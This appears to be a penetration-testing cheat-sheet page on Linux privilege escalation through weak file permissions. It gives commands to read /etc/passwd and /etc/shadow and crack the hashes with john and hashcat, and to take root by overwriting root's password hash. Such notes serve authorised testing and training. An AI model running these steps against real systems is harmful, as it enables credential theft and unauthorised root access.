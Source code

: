 # Weak File Permissions

## Verification

{% hint style="danger" %}
Remember that if there is a file that cannot be modified (since it is user and group root) but we are in a directory where we have write permissions, what we can do is to delete that file and create another one with the same name.
{% endhint %}

```bash
find / -type f -user root # Search for files belonging to the root user.
find / -type f -group root # Search for files belonging to the root group.
find / -readable 2>/dev/null #Find all the files we can read.
find / -writable 2>/dev/null # Find all files we can write/modify.
find / -executable 2>/dev/null # Find all the files we can execute.
```

## /etc/passwd and /etc/shadow

### Verification

```
ls -l /etc/passwd
ls -l /etc/shadow
```

### If we can read both files

```bash
# Transfer the contents of the two files to our machine and then:
unshadow <PASSWD-FILE> <SHADOW-FILE> > unshadowed.txt
```

Then we can crack them with **john** or **hashcat**.&#x20;

{% hint style="info" %}
It would be best to remove all unhashed users from the unshadowed.txt file (although we can also remove users we are not interested in).
{% endhint %}

```bash
hashcat -a 0 -m 1800 <WORDLIST> <HASH>
```

### If we can read the shadow file

If we can read the /etc/shadow file, then we can extract the hashes we are interested in and crack them:

```bash
john --format=sha512crypt --wordlist=<WORDLIST> <HASH>
```

### If we can write to the passwd file

First generate a password with one of the following commands.

```bash
openssl passwd -1 -salt hello hello
python2 -c 'import crypt; print crypt.crypt("hello", "$6$salt")'
```

Then, we can add a user with the generated password. But, we can also replace the "x" of the root user with the generated password:

```bash
root:x:0:0::/root:/usr/bin/zsh # Before
root:<HASH>:0:0::/root:/usr/bin/zsh # After
```

### If we can write to the shadow file

Replace the hash of a user (as root) generated by the following command:

```bash
mkpasswd -m sha-512 "<NEW_PASSWORD>"
```

### FreeBSD

In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.
